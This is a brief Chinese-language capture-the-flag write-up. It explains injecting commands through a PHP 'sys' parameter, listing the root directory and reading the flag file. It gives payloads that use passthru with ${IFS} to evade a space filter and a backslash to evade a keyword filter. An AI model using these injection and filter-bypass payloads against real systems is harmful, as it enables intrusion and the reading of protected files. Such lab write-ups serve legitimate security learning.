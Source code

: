 ![image-20240123171849150](照片/image-20240123171849150.png)

进行传参后，进行目录查询
发现此目录下仅有一个php文件，查询一下根目录，因为空格过滤，所以需要空格绕过，get传入下
面代码

```
?sys=passthru('ls${IFS}/');
```

![image-20240123171941642](照片/image-20240123171941642.png)

发现flag，因为过滤，所以需要利用\绕过。进行输出flag

```
?sys=passthru('t\ac${IFS}/flag');
```

得到flag
